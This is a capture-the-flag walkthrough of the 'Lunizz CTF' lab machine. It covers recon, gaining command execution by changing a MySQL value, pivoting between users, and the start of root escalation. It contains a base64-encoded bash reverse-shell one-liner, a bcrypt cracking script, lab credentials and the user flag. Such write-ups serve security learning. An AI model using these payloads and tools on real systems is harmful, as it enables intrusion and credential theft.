## TL;DR

In this challenge we use `mysql` to change the value in table `run`, and then get `RCE`.

We move to user `adam` using hash we find inside `/proct/pass/bcrypt_encryption.py` and crack.

We find mason's password in google map location, using hint we find on the system

We escalate to root using service running on port `8080`

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh,  port `80` with apache http server, `3306` with mysql service, `4444` and `5000` with unknown services and `33060` with mysql X.

```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                               
22/tcp    open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)                                                         
| ssh-hostkey:                                                                                                                                               
|   3072 3e:4b:f1:9a:d0:59:b7:88:c9:f2:4d:54:43:ff:a9:a6 (RSA)                                                                                               
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC7RQ4jozxRdWYj8GZXJnhh7FspCxW4B86AuF4G5yA7kuDBPeUpWDAMvZlLdr1Fq9eFrN9s8orih9QoNYDj93DtFcH1yL+frO8UnjPAzLXT+ThLjsSh0VXlA4qbqddkcqb4RS0wZkxHnrYSw5/I7KtYE0fFBXjMldSNwe2dkZeFvvlfPh3uptJqL4m7McCHNX2ycmi5YQRdVf6r+waOHoycMNPtcQR8DpweF4DEJoXGyb0qdfzs1IM3dWK56+njrfye1FTbnJmNafhlrg1Oc391KVtXOgG63QCwBRjBsr4UuakL3utTMXcnsx9hfGttCLw0kXwKE7OkIxmEyl85
6FlCJbAVBzMjbknhAQqLvnLVQqLZiTdN8eo0DsZwGkRjf0PeywLI9O0AftUIWACOnETZ6lYLxMdm57QaukgQLMvLuUS1VCuutJDYEQmtbml4uScY00CqqlsXdaO7YXlncDlAz6J3y2IF8l5fSJhdDmdNKgMktkcks86Cf7gkIf0mC9M=                                                                                                                                           
|   256 88:b5:9b:6b:8f:11:ca:f8:ff:f5:16:fa:4b:d8:f8:4e (ECDSA)                                                                                                                              
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIlVw86GU2FrgZxdSEC3/gvGSOlpRqANr113dk0ByvmYbN7MvI1N2xO8MYjzqTaB4Zh1w8gPTTtXZb3XZDgsrQk=                                                                                                                                                         
|   256 74:0d:61:2c:89:cc:07:2b:49:56:e1:b2:72:4a:a1:04 (ED25519)                                                                                                                            
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICK03aQQPtRPCSn/2pY1+z4nZbKPkYOyUcXRRC1ILEbK             
80/tcp    open  http    syn-ack ttl 62 Apache httpd 2.4.41 ((Ubuntu))                                                                                                                        
|_http-title: Apache2 Ubuntu Default Page: It works                                           
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                  
| http-methods:                                                                                          
|_  Supported Methods: OPTIONS HEAD GET POST         
3306/tcp  open  mysql   syn-ack ttl 62 MySQL 8.0.42-0ubuntu0.20.04.1                                     
|_ssl-date: TLS randomness does not represent time                                                                    
| mysql-info:                                                                                                         
|   Protocol: 10                                           
|   Version: 8.0.42-0ubuntu0.20.04.1                       
|   Thread ID: 12                                          
|   Capabilities flags: 65535                              
|   Some Capabilities: SupportsCompression, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, InteractiveClient, LongPassword, Support41Auth, ConnectWithDatabase, SupportsLoadDataLocal, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, ODBCClient, DontAllowDatabaseTableColumn, FoundRows, LongColumnFlag, SupportsMultipleResults, SupportsAut
hPlugins, SupportsMultipleStatments                                                                                                                                                                                                                                           
|   Status: Autocommit                                                                                                                                                                                                                      
|   Salt: \x02^b[\x0F@\x06Mbl\x18+cyz=\x01[%H               
|_  Auth Plugin Name: caching_sha2_password                                                                                            
| ssl-cert: Subject: commonName=MySQL_Server_5.7.33_Auto_Generated_Server_Certificate                                                   
| Issuer: commonName=MySQL_Server_5.7.33_Auto_Generated_CA_Certificate                                                                                                                                                                                                        
| Public Key type: rsa                                                                                                                 
| Public Key bits: 2048                                            
| Signature Algorithm: sha256WithRSAEncryption                      
| Not valid before: 2021-02-11T23:12:30                                                                                                
| Not valid after:  2031-02-09T23:12:30                                                                                                
| MD5:   0b70:1b5f:166e:4269:32e3:01be:40f8:f6e7                                                                                       
| SHA-1: 2866:e1ef:d280:9bcf:6cec:b15c:27b7:af15:cde1:f92b                                                                             
| -----BEGIN CERTIFICATE-----                                                                                                          
| MIIDBzCCAe+gAwIBAgIBAjANBgkqhkiG9w0BAQsFADA8MTowOAYDVQQDDDFNeVNR  
| TF9TZXJ2ZXJfNS43LjMzX0F1dG9fR2VuZXJhdGVkX0NBX0NlcnRpZmljYXRlMB4X                                                                     
| DTIxMDIxMTIzMTIzMFoXDTMxMDIwOTIzMTIzMFowQDE+MDwGA1UEAww1TXlTUUxf                                                                     
| U2VydmVyXzUuNy4zM19BdXRvX0dlbmVyYXRlZF9TZXJ2ZXJfQ2VydGlmaWNhdGUw
| ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDRCvq9/K5fEQO0juxe6NG4
| zjV1A5DR/lgWgraEiLmYANxmlN4MY6dy79NnaeCI8fRSjergQIJzFbNWc5mfm6NC
| E3eaLq2X9eN7+KdR2q7VNjJ/fF3D7k4ewa0GnBNGbC2AyoYrFKXxAN6qGU831qU4
| aMNcNCAXcJqqF4rW+3Vjlj8h2/ZkYkRJsVUEz5k6esNYRsVPu7JSFkRLE4lV8Xg9
| vL9arCA9BgR4sE1FqI7mA9DLUcoEZlJXwgl67oad5sxW+GPuZeUF4jF583C8vBhN
| WRtHWPytjQLe69N8BTthbdabtyQI2HMBEGSEDF6U2AJj8OiC3AXUs3L9p//hL/1p
| AgMBAAGjEDAOMAwGA1UdEwEB/wQCMAAwDQYJKoZIhvcNAQELBQADggEBAHPpnm2k
| 2U9nkklYcE0M2LEWyQE8IJozVMLMZ3KvuTF49+eUGXUeEvoJQnOi6P5ELvc57gGY
| 5QcAdpmqAbdE6vA1jnvK825LCl/L1zpsqXpkj4gu5Znavl2Rs0wXvhGhlj3PlNQu
| SKoSi+s729CulT6OU+JV9NDIOQlzoSfHCHo02t0D006dnx1ko1J/CtWqFi6mPF8u
| jqb87kTDBtMPXEO9OKrWKKjxBBQlVAIgu+VAn3TfeEX5moOZO84Uv7ul6GuJ2Xg3
| J4tSOB1aj0YJcgRXPbYXXf8AgOnMMXv18ZW1x49P5Yro58JyjioZiY7d9bHArRy5
| nuBjGrsuWRNAqBM=                                                                            
|_-----END CERTIFICATE-----                                                                   
4444/tcp  open  krb524? syn-ack ttl 62                                                        
| fingerprint-strings:                                                                        
|   GetRequest:                                                                               
|     Can you decode this for me?                                                             
|     ZXh0cmVtZWhhcmRyb290cGFzc3dvcmQ=                                                        
|     Wrong Password                                                                          
|   NULL, SSLSessionReq:                                                                      
|     Can you decode this for me?                                                             
|_    ZXh0cmVtZWhhcmRyb290cGFzc3dvcmQ=                                                        
5000/tcp  open  upnp?   syn-ack ttl 62                                                        
| fingerprint-strings:                                                                        
|   FourOhFourRequest, GetRequest, JavaRMI, Kerberos, NULL, SIPOptions, TLSSessionReq, WMSRequest, X11Probe, ZendJavaBridge:                                                                 
|     OpenSSH 5.1                                                                             
|_    Unable to load config info from /usr/local/ssl/openssl.cnf                              
33060/tcp open  mysqlx  syn-ack ttl 62 MySQL X protocol listener                              
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============                    
SF-Port4444-TCP:V=7.95%I=7%D=12/29%Time=6952F788%P=x86_64-pc-linux-gnu%r(N                    
SF:ULL,3D,"Can\x20you\x20decode\x20this\x20for\x20me\?\nZXh0cmVtZWhhcmRyb2                    
SF:90cGFzc3dvcmQ=\n")%r(GetRequest,4B,"Can\x20you\x20decode\x20this\x20for                    
SF:\x20me\?\nZXh0cmVtZWhhcmRyb290cGFzc3dvcmQ=\nWrong\x20Password")%r(SSLSe                    
SF:ssionReq,3D,"Can\x20you\x20decode\x20this\x20for\x20me\?\nZXh0cmVtZWhhc                    
SF:mRyb290cGFzc3dvcmQ=\n");                                                                   
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============                    
SF-Port5000-TCP:V=7.95%I=7%D=12/29%Time=6952F783%P=x86_64-pc-linux-gnu%r(N                    
SF:ULL,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from                    
SF:\x20/usr/local/ssl/openssl\.cnf")%r(GetRequest,46,"OpenSSH\x205\.1\nUna                    
SF:ble\x20to\x20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.                    
SF:cnf")%r(ZendJavaBridge,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20con                    
SF:fig\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(TLSSessionReq,46                    
SF:,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20/u                    
SF:sr/local/ssl/openssl\.cnf")%r(Kerberos,46,"OpenSSH\x205\.1\nUnable\x20t                    
SF:o\x20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(                    
SF:X11Probe,46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x2                    
SF:0from\x20/usr/local/ssl/openssl\.cnf")%r(FourOhFourRequest,46,"OpenSSH\                    
SF:x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20/usr/local/s                    
SF:sl/openssl\.cnf")%r(SIPOptions,46,"OpenSSH\x205\.1\nUnable\x20to\x20loa                    
SF:d\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf")%r(JavaRMI,                    
SF:46,"OpenSSH\x205\.1\nUnable\x20to\x20load\x20config\x20info\x20from\x20                    
SF:/usr/local/ssl/openssl\.cnf")%r(WMSRequest,46,"OpenSSH\x205\.1\nUnable\                    
SF:x20to\x20load\x20config\x20info\x20from\x20/usr/local/ssl/openssl\.cnf"                    
SF:);                                                                                         
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `lunizzctf.thm` to my `/etc/hosts`

### Find mysql credentials and change value on table run to get RCE

Since the root page showed me default apache page, I started with fuzzing:
```bash
┌──(agonen㉿kali)-[~/thm/LunizzCTF]
└─$ ffuf -u "http://lunizzctf.thm/FUZZ" -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .txt,.php,.xml -fc 403       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://lunizzctf.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .txt .php .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

hidden                  [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 149ms]
index.html              [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 187ms]
instructions.txt        [Status: 200, Size: 339, Words: 39, Lines: 14, Duration: 148ms]
whatever                [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 149ms]
:: Progress: [19000/19000] :: Job [1/1] :: 266 req/sec :: Duration: [0:01:13] :: Errors: 0 ::
```

This is `http://lunizzctf.thm/instructions.txt`:



Let's try to use the credentials for mysql login:
```bash
runcheck:CTF_script_cave_changeme
```

We need to use the flag `--skip-ssl-verify-server-cert`, otherwise the ssl verifications blocks the request:
```bash
mysql -h lunizzctf.thm -u runcheck -p'CTF_script_cave_changeme' --skip-ssl-verify-server-cert
```

After login, I can see there is db `runornot` with table `runcheck`.
```bash
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| runornot           |
+--------------------+
3 rows in set (0.150 sec)

MySQL [(none)]> use runornot
shReading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [runornot]> show tables
    -> ;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.152 sec)

MySQL [runornot]> select * from runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.149 sec)
```



The interesting part is that inside `/whatever`, another endpoint we found, we can see command execute panel:



As we can notice, it isn't working. The reason is because the command executor mode is 0, let's try to update this in the db:
```bash
MySQL [runornot]> update runcheck set run=1;
```



now, I tried to execute again `id`, and itt worked, we got `RCE`:



I pasted the payload from penelope:
```bash
printf KGJhc2ggPiYgL2Rldi90Y3AvMTkyLjE2OC4xNjQuMjQ4LzQ0NDQgMD4mMSkgJg==|base64 -d|bash
```


### Brute force adam's password using hash found inside /proct/pass/bcrypt_encryption.py

We can see under `/` folder, the folder `/proct`, which shouldn't exist



We can find inside `/proct/pass` the file `bcrypt_encryption.py`.
```bash
www-data@ip-10-67-136-99:/proct/pass$ ls -la                                                                                                                                                 
total 12                                                                                                                                                                                     
drwxr-xr-x 2 adam adam 4096 Feb 28  2021 .                                                                                                                                                   
drwxr-xr-x 3 adam adam 4096 Feb 28  2021 ..                                                                                                                                                  
-rw-r--r-- 1 adam adam  273 Feb 28  2021 bcrypt_encryption.py                                                                                                                                
www-data@ip-10-67-136-99:/proct/pass$ cat bcrypt_encryption.py                                                                                                                               
import bcrypt                                                                                                                                                                                
import base64                                                                                                                                                                                
                                                                                                                                                                                             
passw = "wewillROCKYOU".encode('ascii')                                                                                                                                                      
b64str = base64.b64encode(passw)                                                                                                                                                             
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())                                                                                                                                        
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()
```

I want to crack the hash we find here:
```bash
$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e
```

However, this is bcrypt hash of the base64 of the password. I'll use a python script to crack the password:
```py
import bcrypt
import base64
from multiprocessing import Pool, cpu_count

stored_hash = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
rockyou_path = "/usr/share/wordlists/rockyou.txt"

def check_password(password):
    try:
        b64_password = base64.b64encode(password.encode('ascii'))
        if bcrypt.checkpw(b64_password, stored_hash):
            return password
    except Exception:
        pass
    return None

def main():
    with open(rockyou_path, 'r', encoding='latin-1') as f:
        passwords = [line.strip() for line in f]

    print(f"[+] Using {cpu_count()} CPU cores")

    with Pool(cpu_count()) as pool:
        for result in pool.imap_unordered(check_password, passwords):
            if result:
                print(f"\n[✓] Match found: {result}")
                pool.terminate()
                return

    print("[-] No match found")

if __name__ == "__main__":
    main()
```

The password is `bowwow`.



I logged in as `adam` using ssh:
```bash
ssh adam@lunizzctf.thm # bowwow
```



### Find mason password using google maps location

we can find an hidden note:
```bash
adam@ip-10-64-167-66:~$ cat Desktop/.archive/to_my_best_friend_adam.txt
do you remember our place 
i love there it's soo calming
i will make that lights my password

--

https://www.google.com/maps/@68.5090469,27.481808,3a,75y,313.8h,103.6t/data=!3m6!1e1!3m4!1skJPO1zlKRtMAAAQZLDcQIQ!3e2!7i10000!8i5000
```

I visited the link, there are the northern lights



We can su to mason with the password `northernlights`.



we can grab the user flag:
```bash
mason@ip-10-64-167-66:~$ cat user.txt 
thm{23cd53cbb37a37a74d4425b703d91883}
```

### Privilege Escalation to Root using service on port 8080

Using `ss` and `ps` we can see there is some service being executed as root on port `8080`:
```bash
mason@ip-10-64-167-66:/$ ss -tln
State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
LISTEN            0                 5                                  0.0.0.0:4444                               0.0.0.0:*                                  
LISTEN            0                 4096                         127.0.0.53%lo:53                                 0.0.0.0:*                                  
LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
LISTEN            0                 151                                0.0.0.0:3306                               0.0.0.0:*                                  
LISTEN            0                 4096                             127.0.0.1:8080                               0.0.0.0:*                                  
LISTEN            0                 5                                  0.0.0.0:5000                               0.0.0.0:*                                  
LISTEN            0                 70                                       *:33060                                    *:*                                  
LISTEN            0                 511                                      *:80                                       *:*                                  
LISTEN            0                 128                                   [::]:22                                    [::]:*                                  
mason@ip-10-64-167-66:/$ ps aux | grep 8080
root         790  0.0  0.0   2616   592 ?        Ss   11:49   0:00 /bin/sh -c php -S 127.0.0.1:8080 -t /root/
root         791  0.0  0.9 193620 19292 ?        S    11:49   0:00 php -S 127.0.0.1:8080 -t /root/
mason      44003  0.0  0.0   6440   720 pts/3    S+   12:13   0:00 grep --color=auto 8080
```

